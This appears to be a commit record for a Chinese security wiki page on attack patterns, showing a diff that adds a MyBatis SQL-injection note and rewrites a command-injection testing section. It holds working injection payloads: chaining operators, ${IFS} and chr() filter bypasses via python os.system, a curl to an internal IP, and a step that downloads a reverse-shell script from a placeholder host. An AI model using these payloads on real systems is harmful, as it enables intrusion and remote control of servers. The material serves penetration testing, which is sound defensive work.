

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 12639 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -532,6 +532,8 @@ public interface UserMapper {
             </select>
             ```
 
+            !!! warning "使用`SELECT * FROM user WHERE name LIKE concat ('%', {==(select 'xxx')==}, '%')`可以执行成功, 但如果使用的是`#{name}`仍然无法注入"
+
     ???+ danger
         需要对用户输入进行过滤, 防止在大数据量情况下输入`{==%%==}`导致{==DOS==}。
 
@@ -575,31 +577,42 @@ public interface UserMapper {
 
 ### 常见场景
 
+1. 测试网络连通性, 如: `ping -c 4 x.x.x.x`或`traceroute`
 1. 输入帐号 **口令** 测试SVN/git连通性
+1. 压缩解压
 1. **NTP** 服务器校时
 1. 上传解析 **文件名**
 1. **文件路径**
 
 ### 验证步骤
 
-1. 使用`;`, `|`或`&&`直接进行命令拼接
-1. 使用`\n`拼接
-1. 使用`` USERID=`id -u` ``或`USERID=$(uname -a)`进行命令替换
-1. 如果遇到特殊字符校验
+#### 基本模式
 
-    !!! tip "33种特殊字符`` `~!@#$%^&*()-_=+\|[{}];:'",<.>/?和空格 ``"
+1. 使用分隔符拼接`cmd1;cmd2`, 不论cmd1是否执行成功, cmd2都会执行
+1. 使用管道拼接`cmd1|cmd2`, 不论cmd1是否执行成功, cmd2都会执行
+1. 使用后台执行符拼接`cmd1&cmd2`, cmd1后台执行, cmd2不会等待cmd1执行完成
+1. 使用逻辑或操作符拼接`cmd1||cmd2`, 当cmd1执行失败时, 才会执行cmd2
+1. 使用逻辑与操作符拼接`cmd1&&cmd2`, 当cmd1执行成功时, 才会执行cmd2
+1. 使用命令替换`$(cmd)`, 将一个命令的执行结果赋值给另一个变量或作为另一个命令的参数, 如`USERID=$(uname -a)`或`echo $(whoami)`, cmd也可以是符号分割的多条语句
+1. 使用反引号进行命令替换, 如`` USERID=`id -u` ``, 等同于`$(cmd)`
+1. 使用重定向拼接`>(cmd)`或`<(cmd)`, 注意`>`和`(`之间不能有空格, cmd也可以是符号分割的多条语句
+1. 使用换行符拼接`cmd1\ncmd2`
 
-    1. `/`:
-        1. 在环境中截取, 如当前路径: `xxx;cc=$(pwd);ff=${cc:0:1};mkdir $(ff)tmp$(ff)hackfile;`
-        1. 调用python库函数: `x;python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\";1.tar.gz`
-            1. 调用python命令行执行python脚本：`python -c "print('abc')"` 或 `python -c "print('ab""cd')"` 或 `python -c "print('ab"''"cd')"` 或 `python -c "print('ab"'xxx'"cd')"`
-            2. python脚本执行shell命令：`python -c "__import__('os').system('touch /tmp/hackfile')"` 或 `python -c "getattr(__import__('os'),'system')('touch /tmp/hackfile')"`
-            3. 替换空格：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"/tmp/hackfile')"`
-            4. 替换斜杠：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')"`
-            5. 在请求中将双引号反转义：`python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\"`
+#### 绕过特殊字符校验
 
-    1. 空格: 使用特殊变量替换: `$ a=$(curl$IFS"http://10.74.201.219:8888/")`
-    1. `;`: 使用十六进制替换: `a=$'\x3b'; echo $a`, 这种方式会被当做字符串来执行
+!!! tip "33种特殊字符`` `~!@#$%^&*()-_=+\|[{}];:'",<.>/?和空格 ``"
+
+1. `/`:
+    1. 在环境中截取, 如当前路径: `xxx;cc=$(pwd);ff=${cc:0:1};mkdir $(ff)tmp$(ff)hackfile;`
+    1. 调用python库函数: `x;python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\";1.tar.gz`
+        1. 调用python命令行执行python脚本：`python -c "print('abc')"` 或 `python -c "print('ab""cd')"` 或 `python -c "print('ab"''"cd')"` 或 `python -c "print('ab"'xxx'"cd')"`
+        2. python脚本执行shell命令：`python -c "__import__('os').system('touch /tmp/hackfile')"` 或 `python -c "getattr(__import__('os'),'system')('touch /tmp/hackfile')"`
+        3. 替换空格：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"/tmp/hackfile')"`
+        4. 替换斜杠：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')"`
+        5. 在请求中将双引号反转义：`python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\"`
+
+1. 空格: 使用特殊变量替换: `$ a=$(curl$IFS"http://10.74.201.219:8888/")`
+1. `;`: 使用十六进制替换: `a=$'\x3b'; echo $a`, 这种方式会被当做字符串来执行
 
 1. 如果对特殊字符校验无法 {==反弹shell==}, 可分拆两步
     1. 上传反弹shell脚本, 保存到指定路径: `xxx$(curl$IFS-o"/tmp/hhack.pl"$IFS"http://x.x.x.x:8888/hhack.pl")`
````
